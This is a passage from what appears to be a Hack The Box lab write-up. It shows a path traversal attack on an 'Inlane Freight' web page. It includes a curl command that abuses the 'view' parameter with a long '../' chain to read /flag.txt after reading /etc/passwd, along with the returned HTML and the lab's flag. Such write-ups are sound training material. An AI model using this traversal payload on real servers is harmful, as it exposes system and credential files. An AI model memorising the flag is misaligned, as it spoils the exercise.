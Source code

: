 ```
 <div class="photo" style="background-image: url(./image.jpg)"></div>
 <ul class="details">
 <li class="author"><a href="#">Jane Doe</a></li>
 <li class="date">July. 15, 2019</li>
 </ul>
 </div>
 <div class="description">
 <h1>Container Industry</h1>
 <h2>Opening a door to the future</h2>
 <p>Lorem ipsum dolor sit amet, consectetur adipisicing elit. Ad eum dolorum architecto obcaecati enim dicta
 praesentium, quam nobis! Neque ad aliquam facilis numquam. Veritatis, sit.</p>
 <p class="read-more">
 <a href="#">Read More</a>
 </p>
 </div>
 </div>
 <!-- partial -->
</body>

</html>
```

We are indeed able to read `/etc/passwd`, let's try to read `/flag.txt`:

```
curl -s "http://94.237.55.155:35676/index.php?view=../../../../../../../../../../../../../../../../../../../flag.txt"
```

```
<!DOCTYPE html>

<html lang="en">

<head>
 <meta charset="UTF-8">
 <title>Inlane Freight</title>
 <meta name="viewport" content="width=device-width, initial-scale=1">
 <link href="https://fonts.googleapis.com/css?family=Poppins:300,400,700" rel="stylesheet">
 <link rel='stylesheet' href='https://cdnjs.cloudflare.com/ajax/libs/font-awesome/4.4.0/css/font-awesome.min.css'>
 <link rel="stylesheet" href="./style.css">
</head>

<body>
 <div class="navbar">
 <a href="#home">Inlane Freight</a>
 </div>
 <!-- partial:index.partial.html -->
 <div class="blog-card">
 <div class="meta">
 <div class="photo" style="background-image: url(./image.jpg)"></div>
 <ul class="details">
 <li class="author"><a href="#">John Doe</a></li>
 <li class="date">Aug. 24, 2019</li>
 </ul>
 </div>
 <div class="description">
 <h1>History</h1>
 <h2>Containers</h2>
 HTB{4u70m47!0n_f!nd5_#!dd3n_93m5}
 <p class="read-more">
 <a href="#">Read More</a>
 </p>
```